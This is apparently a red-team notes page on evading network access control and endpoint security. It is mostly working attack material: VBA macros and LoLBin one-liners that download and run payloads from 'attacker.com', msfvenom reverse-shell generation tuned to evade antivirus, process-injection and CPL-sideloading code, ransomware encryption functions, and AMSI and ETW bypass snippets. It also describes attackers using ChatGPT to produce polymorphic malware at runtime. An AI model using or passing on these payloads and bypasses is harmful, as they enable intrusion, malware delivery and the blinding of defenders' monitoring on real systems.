





# 06c — NAC and Endpoint Security Evasion

[⬅ Back to evasion index](../README.md) · [Back to main index](../../README.md)

## Table of Contents
- [NAC Bypass Techniques](#nac-bypass-techniques)
  - [1. VLAN Hopping](#1-vlan-hopping)
  - [2. Pre-authenticated Device Bypass](#2-pre-authenticated-device-bypass)
- [Endpoint Security (EDR/AV) Bypass Techniques](#endpoint-security-edrav-bypass-techniques)
  - [3. Ghostwriting](#3-ghostwriting)
  - [4. Application Whitelisting Bypass (DLL Hijacking)](#4-application-whitelisting-bypass-dll-hijacking)
  - [5. Dechaining Macros](#5-dechaining-macros)
  - [6. Clearing Memory Hooks](#6-clearing-memory-hooks)
  - [7. Process Injection](#7-process-injection)
  - [8. LoLBins (Living off the Land Binaries)](#8-lolbins-living-off-the-land-binaries)
  - [9. CPL Sideloading](#9-cpl-sideloading)
  - [10. ChatGPT-Assisted Malware Generation](#10-chatgpt-assisted-malware-generation)
  - [11. Metasploit Template Modification](#11-metasploit-template-modification)
  - [12. Windows AMSI Bypass](#12-windows-amsi-bypass)
  - [13. Advanced EDR Evasion Techniques](#13-advanced-edr-evasion-techniques)

---

## NAC Bypass Techniques

Network Access Control (NAC) blocks unauthorized or unknown devices from accessing internal services. The following techniques let attackers bypass NAC to gain network entry.

### 1. VLAN Hopping

VLANs are supposed to segment network traffic — a device on VLAN 10 shouldn't be able to talk to VLAN 20. VLAN hopping exploits the **Dynamic Trunking Protocol (DTP)**, which can automatically negotiate trunk links between switches.



**Tool: VLANPWN**

```bash
# DoubleTagging.py — VLAN hopping via 802.1Q double-tagging
# Sends a frame with two 802.1Q headers + a test ICMP request
python3 DoubleTagging.py \
  --interface eth0 \
  --nativevlan 1 \      # the native VLAN of the switch port (often VLAN 1)
  --targetvlan 20 \     # the VLAN you want to hop into
  --victim <target_IP> \
  --attacker <your_IP>

# DTPHijacking.py — forces the switch to create a trunk with the attacker
# Sends a malicious DTP-desirable frame
python3 DTPHijacking.py --interface eth0
# After this: attacker machine receives traffic from ALL VLANs on the trunk
```

**Defensive countermeasure:** disable DTP on all non-trunk ports (`switchport nonegotiate` on Cisco IOS), use a dedicated native VLAN that is not used for any host traffic.

---

### 2. Pre-authenticated Device Bypass

NAC authenticates *devices*, not just users. If an attacker can get access to (or intercept traffic from) an already-authenticated device, they can smuggle their own traffic through the NAC using that device's credentials/session.



**Tool: nac_bypass_setup.sh**

```bash
# Usage: place the Raspberry Pi (or any Linux device with 2 NICs)
# between the authenticated device and the switch port

./nac_bypass_setup.sh -1 eth0 -2 eth1
# -1 = interface plugged into the switch
# -2 = interface plugged into the authenticated victim machine
# -a = autonomous mode (auto-detect and configure)
# -s = enable port redirection for OpenSSH
# -R = enable port redirection for Responder.py
# -g <MAC> = manually set gateway MAC address
```

**Additional NAC bypass tools:**
| Tool | Description |
|---|---|
| **FENRIR** | NAC bypass via pre-authenticated device bridging |
| **NACkered** | Automated NAC bypass toolkit |
| **Silentbridge** | Silent transparent bridge for NAC bypass |
| **BITM** | Bump-In-The-Middle for NAC bypass |

---

## Endpoint Security (EDR/AV) Bypass Techniques

Modern Endpoint Detection and Response (EDR) solutions use behavioral analysis, memory scanning, and API hooking to detect malware. The techniques below target these specific mechanisms.

### 3. Ghostwriting

Ghostwriting modifies the *structure* of malware binary code (deconstruction and reconstruction with inserted junk code) without changing its *functionality* — producing a binary with a different signature that evades signature-based AV/EDR detection.

**Tool: Ghostwriting.sh**

```bash
# Change to the ghostwriting directory
cd /opt/ghostwriting/

# Run the script (requires root)
sudo ./ghostwriting.sh
```

**What Ghostwriting.sh does internally:**
1. Uses `msfvenom` to create a Meterpreter reverse TCP binary targeting the machine's private IP.
2. **Disassembles** the binary (using built-in Metasploit tools).
3. **Inserts junk/NOP-equivalent assembly instructions** at random points — these do nothing functionally but change every byte offset and signature pattern.
4. **Reassembles** the binary with the junk code embedded.
5. Opens a local HTTP server (`python3 -m http.server 8000`) so the modified binary can be transferred to the victim machine.

The resulting binary has a completely different signature from the original Metasploit payload — evading static signature-based AV engines that would immediately flag the original.

---

### 4. Application Whitelisting Bypass (DLL Hijacking)

Windows application whitelisting (AppLocker, Windows Defender Application Control) only allows signed, approved applications to run. DLL hijacking exploits the Windows DLL search order to make a *trusted, whitelisted* application load a *malicious DLL* instead of the legitimate one.

**How Windows searches for DLLs (simplified order):**
1. The directory where the executable is located
2. The System32 directory
3. The Windows directory
4. The current working directory
5. Directories listed in PATH

**Attack:** Place a malicious DLL with the *same name* as a DLL that a trusted, signed application needs, in the *same directory* as that application. When the application runs, it loads the malicious DLL first (step 1 in the search order) before finding the real one later.

```powershell
# Example: using regsvr32.exe (a trusted, signed Windows binary) to load a malicious DLL
# This bypasses application whitelisting because regsvr32.exe itself is whitelisted
regsvr32.exe /s /n /u /i:"C:\path_to_malicious.dll"

# rundll32.exe approach
rundll32.exe C:\path_to_malicious.dll,EntryPoint

# PowerShell loading a DLL (evades some AV, as it's a trusted shell)
[System.Reflection.Assembly]::LoadFile("C:\path_to_malicious.dll")
```

---

### 5. Dechaining Macros

Microsoft Office macros (VBA) are a common initial access and persistence vector. "Dechaining" means spawning child processes or executing code from within a macro in ways that disconnect the execution chain from the Office process — evading dynamic analysis tools that monitor Office process behavior.

#### Spawning through ShellCOM
```vba
' Use COM objects to spawn new processes (breaks the Office → cmd.exe chain)
Set obj = GetObject("new:C08AFD90-F2A1-11D1-8455-00A0C91F3880")
obj.Document.Application.ShellExecute "calc.exe", Null, "C:\\Windows\\System32", Null, 0
```

#### Spawning using XMLDOM
```vba
' Download and execute code inside the Office process via XMLDOM
Set xml = CreateObject("Microsoft.XMLDOM")
xml.async = False
Set xsl = xml
xsl.load("file://|http://hacker/malicous_payload.xsl")
xml.transformNode xsl
```

#### Spawning through WmiPrvse.exe
```vba
' Launch via WMI — spawns process through wmiprvse.exe (not Office process)
Set objWMIService = GetObject("winmgmts:{impersonationLevel=impersonate}!\\.\\root\\cimv2")
Set objStartup = objWMIService.Get("Win32_ProcessStartup")
Set objConfig = objStartup.SpawnInstance_
Set objProcess = GetObject("winmgmts:root\\cimv2:Win32_Process")
errReturn = objProcess.Create("calc.exe", Null, objConfig, intProcessID)
```

#### Creating Scheduled Tasks
```vba
' Create a scheduled task from the macro — execution happens later (deferred dechain)
Set service = CreateObject("Schedule.Service")
Call service.Connect
Dim td: Set td = service.NewTask(0)
td.RegistrationInfo.Author = "McAfee Corporation"   ' disguise as legitimate
td.settings.StartWhenAvailable = True
td.settings.Hidden = False
' ... set trigger to 30 seconds from now ...
Dim Action: Set Action = td.Actions.Create(0)
Action.Path = "C:\\Windows\\System32\\calc.exe"
call service.GetFolder("\\").RegisterTaskDefinition("AVUpdateTask", td, 6, , , 3)
```

#### Registry Modification for Persistence
```vba
' Write to Run key — payload executes on every boot (dechain from Office entirely)
Set objRegistry = GetObject("winmgmts:\\.\\root\\default:StdRegProv")
objRegistry.SetStringValue 2147483649, _
    "Software\\Microsoft\\Windows\\CurrentVersion\\Run", "key1", "value1"
```

#### Dropping Files via FileSystemObject
```vba
' Drop a .bat file in the Startup folder — executes on next login
Path = CreateObject("WScript.Shell").SpecialFolders("Startup")
Set objFSO = CreateObject("Scripting.FileSystemObject")
Set objFile = objFSO.CreateTextFile(Path & "\\sample.bat", True)
objFile.Write "payload.exe" & vbCrLf
objFile.Close
```

#### Downloading Content via XMLHTTP + ADODB
```vba
' Download a file from the internet and save it to disk
Dim xHttp: Set xHttp = CreateObject("Microsoft.XMLHTTP")
Dim bStrm: Set bStrm = CreateObject("Adodb.Stream")
xHttp.Open "GET", "https://attacker.com/payload.exe", False
xHttp.Send
With bStrm
    .Type = 1 : .Open : .write xHttp.responseBody
    .SaveToFile Environ("APPDATA") & "\\sample.exe", 2
End With
```

#### Embedding Payload with msfvenom
```bash
# Generate a VBA macro with embedded payload (vba-exe format)
msfvenom -p generic/custom \
  PAYLOADFILE=/home/user/payload.exe \
  -a x64 --platform windows \
  -f vba-exe
# Output is a VBA macro that, when pasted into an Office document,
# will embed and execute the payload
```

---

### 6. Clearing Memory Hooks

EDR agents place "hooks" in Windows DLL functions — intercepting calls to sensitive APIs (like `VirtualAlloc`, `WriteProcessMemory`, etc.) to monitor for malicious behavior. Attackers **unhook** these by restoring the original function bytes.



**Process:**
1. Use a debugger/tool like **x64dbg** to identify which syscalls are hooked (they will show a `jmp` instruction at the start instead of the original bytes like `mov r10, rcx`).
2. Create a payload that loads a clean copy of `ntdll.dll` directly from disk (bypassing the in-memory hooked version).
3. Overwrite the hooked function bytes in memory with the original bytes from the clean disk copy.
4. Now API calls go straight to the kernel — the EDR hooks never fire.

```c
// Conceptual: reload ntdll from disk to get unhooked copy
HANDLE hFile = CreateFileA("C:\\Windows\\System32\\ntdll.dll", ...);
// Map it into memory
// Find the .text section with original function bytes
// Overwrite hooked bytes in the currently loaded ntdll
// EDR hooks are now cleared
```

---

### 7. Process Injection

Process injection writes malicious shellcode into the memory of a legitimate, already-running process — making the malware appear to be part of a trusted application (explorer.exe, svchost.exe, etc.).



**Windows API functions used:**

```c
// Step 1: Open the target process with required permissions
HANDLE hProcess = OpenProcess(
    PROCESS_ALL_ACCESS, FALSE, targetPID
);

// Step 2: Allocate memory in the target process for the shellcode
LPVOID pRemoteCode = VirtualAllocEx(
    hProcess,           // handle to target process
    NULL,               // let OS choose address
    shellcode_size,     // size of our shellcode
    MEM_COMMIT | MEM_RESERVE,
    PAGE_EXECUTE_READWRITE  // executable memory
);

// Step 3: Write the shellcode into the target process's memory
WriteProcessMemory(
    hProcess,
    pRemoteCode,        // destination address (in target)
    shellcode,          // source buffer (our shellcode)
    shellcode_size,
    NULL
);

// Step 4: Create a new thread in the target process to execute the shellcode
HANDLE hThread = CreateRemoteThread(
    hProcess,
    NULL, 0,
    (LPTHREAD_START_ROUTINE)pRemoteCode,  // thread entry = shellcode start
    NULL, 0, NULL
);
```

---

### 8. LoLBins (Living off the Land Binaries)

LoLBins are **legitimate, pre-installed, signed Windows binaries** that can be abused to execute malicious actions without dropping any new executables. EDR solutions struggle to flag these because the binaries themselves are trusted and their usage looks like normal system administration.

**Attack workflow using Deimos C2 + LoLBins:**

```bash
# Step 1: Generate a C2 agent payload using Deimos (Golang C2 framework)
# Configure it to communicate via HTTPS, upload to an external HTTP server

# Step 2: Use ConfigSecurityPolicy.exe (a signed Microsoft binary) to
# download the payload — looks like a Windows Defender policy update
C:\> "C:\Program Files\Windows Defender\ConfigSecurityPolicy.exe" http://attacker.com/agent.exe

# The binary downloads agent.exe to the IE cache folder

# Step 3: Copy the downloaded agent somewhere usable
copy "C:\Users\user\AppData\Local\Microsoft\Windows\INetCache\IE\...\agent.exe" explorer.exe

# Step 4: Execute the agent using CustomShellHost.exe (another signed Microsoft binary)
# This replaces Explorer.exe with a custom application — the C2 agent
C:\> CustomShellHost.exe
```

**Why EDR misses this:** Every binary used (`ConfigSecurityPolicy.exe`, `CustomShellHost.exe`) is signed by Microsoft. The downloads and executions look like normal Windows operations.

**Other common LoLBins:**

| Binary | Abuse method |
|---|---|
| `certutil.exe` | Download files: `certutil -urlcache -split -f http://attacker.com/p.exe p.exe` |
| `bitsadmin.exe` | Download via BITS (see [06a BITS section](../06a-firewall-evasion/README.md#18-windows-bits-evasion)) |
| `mshta.exe` | Execute remote HTA: `mshta http://attacker.com/payload.hta` |
| `regsvr32.exe` | Execute DLL/COM scriptlet: `regsvr32 /u /s /i:http://attacker.com/p.sct scrobj.dll` |
| `rundll32.exe` | Execute DLL: `rundll32.exe javascript:"\..\mshtml,RunHTMLApplication";` |
| `wmic.exe` | Execute remote XSL: `wmic os get /format:http://attacker.com/payload.xsl` |

---

### 9. CPL Sideloading

Control Panel (`.cpl`) files are DLLs that provide Windows Control Panel applets. Because they're a native Windows file type rarely associated with malware, traditional detection systems often overlook them.

**Attack steps using CPLResourceRunner:**

```bash
# Step 1: Generate a staged payload in x86 format using Cobalt Strike
# Save as beacon.bin

# Step 2: Convert shellcode to usable format
python3 ConvertShellcode.py beacon.bin
# Output: shellcode.txt

# Step 3: Encode shellcode to Base64 for embedding
cat shellcode.txt | sed 's/[, ]//g; s/0x//g;' | tr -d '\n' | \
  xxd -p -r | gzip -c | base64 > b64shellcode.txt

# Step 4: Copy Base64 content into Resources.txt (CPLResourceRunner template)

# Step 5: Build the malicious .cpl file
# Collect x86 resources, copy CPLResourceRunner.dll as maliciousnew.cpl
cp CPLResourceRunner.dll maliciousnew.cpl

# Now register the .cpl in the registry:
# HKCU\Software\Microsoft\Windows\CurrentVersion\Control Panel\Custom Pages\
# → Windows will load this .cpl when Control Panel opens → payload executes
```

**Example minimal .cpl source code:**
```c
#include <stdio.h>
#include <Windows.h>

BOOL APIENTRY DllMain(HMODULE hModule, DWORD ul_reason_for_call, LPVOID lpReserved) {
    if (ul_reason_for_call == DLL_PROCESS_ATTACH) {
        system("c:\\windows\\system32\\calc.exe");  // replace with real payload
    }
    return TRUE;
}
```

---

### 10. ChatGPT-Assisted Malware Generation

Attackers leverage AI tools to generate, mutate, and validate malicious code — creating polymorphic malware that changes with every iteration, making signature-based detection extremely difficult.

**Attack workflow:**



**Concrete Python examples ChatGPT can generate:**

```python
# Ransomware: find target files
import os
def FindTheseFiles(root_dir):
    extensions = ('.txt', '.pdf', '.docx', '.ppt', '.xlsx', '.png', '.jpg')
    matching_files = []
    for root, dirs, files in os.walk(root_dir):
        for file in files:
            if file.endswith(extensions):
                matching_files.append(os.path.join(root, file))
    return matching_files
```

```python
# Ransomware: encrypt a file with Fernet (symmetric encryption)
from cryptography.fernet import Fernet
def EncryptGivenFile(key, file_path):
    cipher = Fernet(key)
    with open(file_path, 'rb') as f:
        original_data = f.read()
    encrypted_data = cipher.encrypt(original_data)
    with open(file_path, 'wb') as f:
        f.write(encrypted_data)
```

**Key insight:** Because the malware includes a Python interpreter and uses ChatGPT to get new code at runtime, it never stores a fixed malicious binary on disk — evading static analysis and AMSI (which scans scripts at load time, but not dynamically fetched Python text).

---

### 11. Metasploit Template Modification

Metasploit payloads are well-known to AV/EDR vendors — their byte patterns are immediately detected. By modifying the PE template used to wrap the payload, attackers reduce the detection rate.

```bash
# Step 1: Generate a standard Metasploit payload
msfvenom -p windows/shell_reverse_tcp \
  LHOST=<attacker_IP> LPORT=444 \
  -f exe > Windows.exe
# Test on VirusTotal → high detection rate (e.g., 50+/72 engines)

# Step 2: Modify the template.c source file — reduce payload buffer size
# (changes the PE structure/size, breaking pattern-match signatures)
# Edit template.c:
# #define SCSIZE 4000    (was 4096 — changing this alters the PE section layout)

# Step 3: Recompile the modified template as evasion.exe
i686-w64-mingw32-gcc template.c -lws2_32 -o evasion.exe

# Step 4: Generate new payload using the custom template
msfvenom -p windows/shell_reverse_tcp \
  LHOST=<attacker_IP> LPORT=444 \
  -x /path/to/evasion.exe \    # use custom template
  -f exe > bypass.exe
# Test again on VirusTotal → significantly lower detection rate

# Repeat: keep modifying template.c → recompile → regenerate → retest
# until detection rate is acceptably low
```

---

### 12. Windows AMSI Bypass

AMSI (Antimalware Scan Interface) is a Windows API that allows AV/EDR products to scan scripts (PowerShell, VBScript, JavaScript) *before* they execute — catching malware that evades file-based scanning by running entirely in memory.

#### Technique 1: PowerShell Downgrade

```powershell
# AMSI was introduced in PowerShell v3+
# PowerShell 2.0 has no AMSI integration → downgrade to run any script unscanned
powershell -version 2

# Now amsiutils commands (normally blocked) work freely:
amsiutils
```

#### Technique 2: Obfuscation

```powershell
# AMSI scans the literal string "Invoke-Mimikatz" → blocks it
# Obfuscate by string concatenation (AMSI sees assembled string only at runtime):
"Inv" + "o" + "ke" + " -Mimi" + "katz"

# Or use AmsiTrigger to scan your script and find EXACTLY which lines trigger AMSI:
AmsiTrigger_x64.exe -i script.ps1 -f 3
# Then obfuscate only those specific lines
```

#### Technique 3: Forcing an Error (amsiInitFailed)

```powershell
# AMSI initializes via amsiInitFailed = false (initialization succeeded)
# If we set amsiInitFailed = true, AMSI "fails to initialize" → stops scanning

$mem = [System.Runtime.InteropServices.Marshal]::AllocHGlobal(9076)
[Ref].Assembly.GetType("System.Management.Automation.AmsiUtils").
    GetField("amsiSession","NonPublic,Static").SetValue($null,$null)
[Ref].Assembly.GetType("System.Management.Automation.AmsiUtils").
    GetField("amsiContext","NonPublic,Static").SetValue($null,[IntPtr]$mem)

# After running this: AMSI is disabled for the current PowerShell session
```

#### Technique 4: Memory Hijacking (AmsiScanBuffer patch)

```powershell
# Load ASBBypass.dll which patches AmsiScanBuffer() in memory
# to always return AMSI_RESULT_CLEAN (0x1 = clean, no malware)
[System.Reflection.Assembly]::LoadFile("<Path to ASBBypass.dll>")
[Amsi]::Bypass()

# After this: all subsequent AMSI scans in this process return "clean"
```

---

### 13. Advanced EDR Evasion Techniques

These techniques target modern behavioral EDR solutions that go beyond signature matching:

| Technique | What it does | How it works |
|---|---|---|
| **Hosting Phishing on Cloud Infra** | Abuses trusted hosting platforms to evade IP blacklists | Uses Google Cloud, AWS, Cloudflare — these IPs are never on EDR blacklists |
| **Passing Encoded Commands** | Hides command content from EDR string inspection | Base64-encodes the malicious PowerShell command before passing it |
| **Fast Flux DNS** | Rapidly cycles through IP addresses and DNS names | Prevents blacklisting; C2 server stays reachable even when domains are blocked |
| **Timing-based Evasion** | Delays execution to outlast sandbox analysis periods | `sleep(30000)`; calculate large prime numbers to consume time; "time bombs" |
| **Signed Binary Proxy Execution** | Uses trusted, signed binaries to proxy malicious code | `rundll32.exe`, `mshta.exe`, `wmic.exe` — all signed by Microsoft |
| **Shellcode Encryption** | Encrypts shellcode so static analysis sees only ciphertext | XOR, RC4, AES — decryption key embedded in malware or generated dynamically |
| **Reducing Entropy** | Makes the binary look statistically "normal" to ML-based EDR | Inserts low-entropy resources (images, strings from real DLLs like chrome.dll) |
| **Escaping Local AV Sandbox** | Delays execution past the sandbox analysis timeout | Calculate large primes; sleep longer than the sandbox's evaluation window |
| **Disabling ETW** | Blinds EDR tools that rely on Event Tracing for Windows | Patch `EtwEventWrite` in `ntdll.dll` to always return SUCCESS (zero-byte return) |
| **Direct Syscalls** | Bypasses userland API hooks by calling kernel directly | Retrieve syscall IDs from `ntdll.dll`, push args on stack, call `syscall <id>` |
| **Spoofing Thread Call Stack** | Hides shellcode return address from memory scanning EDR | Hook `Sleep()`, overwrite return address with `0x0` while sleeping, restore on wake |
| **In-memory Beacon Encryption** | Encrypts shellcode in memory while the beacon "sleeps" | XOR-encrypt the shellcode memory region when dormant; decrypt on wake |

**Encoded command example (Base64 PowerShell):**

```powershell
# Malicious command (would be flagged by EDR):
$command = "Invoke-WebRequest -Uri http://attacker.com/payload.exe -OutFile C:\Users\Public\payload.exe; Start-Process C:\Users\Public\payload.exe"

# Encode it:
$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)
$encodedCommand = [Convert]::ToBase64String($bytes)
echo $encodedCommand

# Execute the encoded command (EDR sees base64 blob, not the malicious strings):
powershell -EncodedCommand $encodedCommand
```

**Disabling ETW (EtwEventWrite patch):**

```powershell
# Patch ntdll.dll's EtwEventWrite to return immediately (SUCCESS = 0)
# This blinds all EDR solutions that depend on ETW for process/API telemetry
$ntdll = [System.Diagnostics.Process]::GetCurrentProcess().Modules |
    Where-Object { $_.ModuleName -eq "ntdll.dll" }
# ... find EtwEventWrite address, patch first bytes to: ret (0xC3)
# EDR's ETW callbacks never fire after this patch
```

---

[⬅ 06b: IDS Evasion](../06b-ids-evasion/README.md) · [Back to evasion index](../README.md) · [Back to main index](../../README.md) · [➡ 07: Evasion Tools](../../07-evasion-tools/README.md)
